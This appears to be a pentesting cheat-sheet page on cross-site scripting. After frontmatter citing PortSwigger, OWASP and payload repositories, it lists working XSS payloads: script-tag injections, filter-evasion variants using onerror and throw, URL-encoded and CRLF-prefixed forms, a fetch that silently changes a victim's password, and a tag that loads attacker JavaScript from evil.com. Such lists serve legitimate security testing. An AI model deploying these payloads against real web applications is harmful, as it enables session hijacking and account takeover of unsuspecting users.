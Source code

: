 ```yaml
---
title: XSS (Cross-Site Scripting)
description: XSS enables attackers to injection client-side scripts into web applications.
tags:
    - XSS
    - Web
refs:
    - https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked
    - https://portswigger.net/research/xss-without-parentheses-and-semi-colons
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md
    - https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
    - https://brutelogic.com.br/blog/building-xss-polyglots/
    - https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
date: 2024-05-08
draft: false
---
```


<div data-pagefind-ignore>

## Payloads

We can insert them into **URL params**,  **POST params** or **HTTP headers**.  
Additionary, we can also find CVE related XSS [here](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=xss).

### Script Tags

```txt
<script>alert(1)</script>
"><script>alert(1)</script>
'></script><script>alert(1)</script>
<script>onerror=alert;throw 123</script>
<script>{onerror=alert}throw 123</script>
<script>throw onerror=alert,'hello',123,'world'</script>
<script>fetch('/profile?new_password=password');</script>
</textarea><script>alert(1)</script>

%3Cscript%3Ealert%281%29%3C%2Fscript%3E

%0D%0A<script>alert(1)</script>
%0D%0A%0D%0A<script>alert(1)</script>

';alert(1);'
```

In addition, we may be able to execute our JavaScript file which is hosted on our server.

```txt
<script src="https://evil.com/evil.js"></script>
```
